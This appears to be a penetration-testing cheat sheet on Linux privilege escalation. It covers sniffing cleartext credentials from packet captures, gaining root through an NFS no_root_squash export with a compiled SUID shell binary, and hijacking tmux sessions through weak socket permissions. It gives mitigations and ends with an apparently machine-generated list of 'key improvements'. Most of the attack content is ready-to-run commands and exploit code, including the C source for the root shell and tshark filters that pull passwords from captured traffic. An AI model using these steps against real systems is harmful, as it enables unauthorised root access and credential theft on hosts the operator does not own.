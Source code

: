 

# Passive Traffic Capture:
### Capture Traffic
```bash
sudo tcpdump -i <interface> -w capture.pcap
```

### Analyze Capture with net-creds (if installed)
```bash
net-creds capture.pcap
```

### Analyze Capture with PCredz (if installed)
```bash
PCredz capture.pcap
```

### Analyze Capture with tshark (part of Wireshark)
```bash
tshark -r capture.pcap -T fields -e http.authorization -e ftp.password -e pop.password -e imap.password -e telnet.password -e smtp.password
```

### Analyze Capture with Wireshark (GUI)
```bash
wireshark capture.pcap
```

# Weak NFS Privileges:
### Show NFS Exports
```bash
showmount -e <nfs_server_ip>
```

### View NFS Exports Configuration
```bash
cat /etc/exports
```

### Mount NFS Share (requires sudo)
```bash
sudo mount -t nfs <nfs_server_ip>:/<export_path> /mnt
```

### Create SUID Binary (C Code Example)
```bash
cat > shell.c << EOF
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
EOF
```
```bash
gcc shell.c -o shell
```

### Copy SUID Binary to NFS Mount
```bash
cp shell /mnt
```

### Set SUID Bit
```bash
sudo chmod u+s /mnt/shell
```

### Execute SUID Binary (on Target System)
```bash
./shell
```

### Unmount NFS Share (requires sudo)
```bash
sudo umount /mnt
```

# Hijacking Tmux Sessions:
### Find Running tmux Processes
```bash
ps aux | grep tmux
```

### Check tmux Socket Permissions
```bash
ls -la <tmux_socket>
```

### Attach to tmux Session
```bash
tmux -S <tmux_socket> attach
```

### Create a New Shared tmux Session (example)
```bash
tmux -S /shareds new -s debugsess
```

### Change the Ownership of the tmux Socket (example)
```bash
sudo chown root:devs /shareds
```


## **1. Passive Traffic Capture:**

- **Concept:**
    - Using `tcpdump` or similar tools to capture network traffic.
    - Analyzing the captured traffic for sensitive information (credentials, hashes).
- **Vulnerabilities:**
    - Cleartext protocols (HTTP, FTP, etc.).
    - Weak encryption.
    - Capture of hashes (Net-NTLMv2, Kerberos).
- **Tools:**
    - `tcpdump`
    - `net-creds`
    - `PCredz`
- **Mitigation:**
    - Use encrypted protocols (HTTPS, SSH).
    - Implement network segmentation.
    - Restrict access to `tcpdump` and similar tools.
    - Use tools that prevent cleartext credential transmission.

## **2. Weak NFS Privileges:**

- **Concept:**
    - Exploiting misconfigurations in NFS exports.
    - Specifically, the `no_root_squash` option.
- **Vulnerabilities:**
    - `no_root_squash` allows remote root users to write files as root on the NFS server.
- **Exploitation:**
    - Mount the NFS share.
    - Create a SUID root binary.
    - Execute the binary to gain root privileges.
- **Mitigation:**
    - Use `root_squash` (default).
    - Restrict NFS exports.
    - Properly secure the NFS server.
- **Commands:**
    - `showmount -e <nfs_server_ip>`
    - `cat /etc/exports`
    - `mount -t nfs <nfs_server_ip>:/<export_path> /mnt`
    - `chmod u+s <binary>`

## **3. Hijacking Tmux Sessions:**

- **Concept:**
    - Exploiting weak permissions on `tmux` sessions.
    - Attaching to a root-owned `tmux` session.
- **Vulnerabilities:**
    - World-writable or group-writable `tmux` sockets.
    - Root-owned `tmux` sessions.
- **Exploitation:**
    - Identify running `tmux` processes.
    - Check permissions on the `tmux` socket.
    - Attach to the session.
- **Mitigation:**
    - Set appropriate permissions on `tmux` sockets.
    - Avoid running privileged `tmux` sessions.
    - Use strong permissions on the tmux socket.
- **Commands:**
    - `ps aux | grep tmux`
    - `ls -la <tmux_socket>`
    - `tmux -S <tmux_socket> attach`

## **Key Improvements and Considerations:**

- **Clarity:** The explanations are clear and concise.
- **Security Best Practices:** The mitigations are practical and relevant.
- **Command Examples:** The command examples are helpful.
- **Real-World Relevance:** These techniques are commonly used in penetration testing.
- **NFS Security:** More emphasis on the importance of NFS security best practices.
- **Tmux Security:** More emphasis on the importance of Tmux socket permissions.
- **Traffic Capture:** More emphasis on the importance of encrypted protocols.
- **Detection:** More emphasis on the importance of detecting these attacks.
- **More tools:** more tools for traffic capture could be mentioned, such as wireshark, and tshark.
- **NFS Version:** Mention the security differences between NFS version 3 and 4.